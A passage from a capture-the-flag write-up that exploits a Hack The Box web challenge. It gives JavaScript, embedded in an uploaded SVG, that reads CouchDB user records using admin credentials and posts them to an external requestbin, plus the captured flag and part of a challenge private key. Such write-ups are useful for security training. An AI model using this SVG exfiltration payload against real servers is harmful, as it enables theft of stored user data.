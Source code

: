 ```js
	Http1.open("GET", "http://admin:youwouldntdownloadacouch@localhost:5984/users/_all_docs?include_docs=true");
	Http1.setRequestHeader('Authorization', 'Basic YWRtaW46eW91d291bGRudGRvd25sb2FkYWNvdWNo');
	Http1.send();
	
	Http1.onreadystatechange = (e) => {
		let Http2 = new XMLHttpRequest();
		Http2.open("POST", "https://enmgux1qyk0ly71.m.pipedream.net", true);
		Http2.setRequestHeader('Content-type', 'application/json');
		Http2.send(Http1.responseText);
	}
}

window.onload = jj
```
Note here that we set an authorization header using basic auth and a token which is simply `admin:youwouldntdownloadacouch` base64 encoded (from the CouchDB docs)
Now we encapsulate this in a valid SVG file (which can contain arbitrary javascript)
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
	<script type="text/javascript">
	...
	</script>
</svg>
```
Now we create a new user and upload this file, getting its obfuscated filename as `04ee21c2888d1dae9926d8fd9ccf6268.svg`. When we hit the endpoint, we can send any keyword value we like, since the response doesn't matter, so we run the following code (using the function mentioned in the previous section):
```python
tth_p("/api/test-ui", {"path":"/uploads/04ee21c2888d1dae9926d8fd9ccf6268.svg","keyword":"SouthFlagsington!"})
```

And finally head over to the requestbin, and read the dumped data to obtain the flag as:

`HTB{w3_d0_4_l1ttl3_c0uch_d0wnl04d1ng}`

## Appendix: files mentioned

#### `jwtRSA256-private.pem`
```
-----BEGIN PRIVATE KEY-----
MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDRCXtN3j5x08vT
2pQe7TlkEFnxI1Duu3DmRLsJ1w5gTTycuz8pLW14RtbQNmUj9r3za6dcQsjQSgRf
77RD6owcUPleT5F8ZoAk1oRCVDlaYzD+hEcrB/iVGEngujbgyFQXeh9JnFLt8JFQ
LunT36eAFDxrNXH4/u81sUX8fY66UVboS9TNorc7vfUSxGLYZsqdLOdmJGdzUPNU
ctujGFKdUj3OUA/YoxvIjJQAm/uilM8WszYTBxwq9vvpMAbF3OEA87qLWl9yeiD4
9COhwfloR5WHXnS3vSALEKX90NsLe+UcyKRt4NsgpsC1GelVynjC9fZiNEwI1JtC
t9AMklsDAgMBAAECggEBAMdy946Fpikvf4TFQpz7lc3O+DJnkvomKIPdQmUSJ+pk
55dX5dzhNlkTpjUGIZyd+gG/TvFt23M5nFD5QpOmwEboT/bXjqYWmuALOiibehmv
GPlPtyPsuBdyFFNy+ZeiLPI1mJLAsDPNXKkYCg0ZkhVXuYpFdVixzgX5/h/6oOtN
o2hfHVbVsNqqdxQcv0Z5t8tHxGDC9+OHigFCUB13DqJosYek7wWB2HmGhHO6HnyF
t4D/Bh0GXlnEVkjyKLQgxyCNlqFJ0hPWerzSKNgulFCQlJmuMNCX3c2IbHsk3LSU
oNYFGBMKG+dJ42xAusjpvkZ3jnLG/VLk3DyNG7Jy73kCgYEA/jZR+XJtUu467NRG
sJL/W9n/tWZK4UYFFsE61CXpjgrZAOL/g/gc6nfUaqzTGEcmaAYB9bJuEJdp/lOz
7gOxjCtJuXFh8f+EpGcPoc8Hs3SKN9A1GvdA6B76ZvSyEICOwUBwLOCI1EKjD6JV
hU80dgMVTZME9D3KiYYJ7BaiDw8CgYEA0oHUK0EgMctE4wT1i7WHmhry7mwUnzvt
KnnX2BC7lFwTXz/1q3oB9R7CvYcpZPYe/eRuKcQh7f0bWZYngzzC3l23TgtEYrMf
FlBHazX0nUesuTGz/JtWfatmuKk5z98IDmS1MezpqGGCbQCW3I274yrzslvzP0VO
Etx2oyJu9M0CgYBpdLlO5MQrWf6BzpHAoEpknSux4cyAZV6pEOHJriyUKzXYY1Ki
```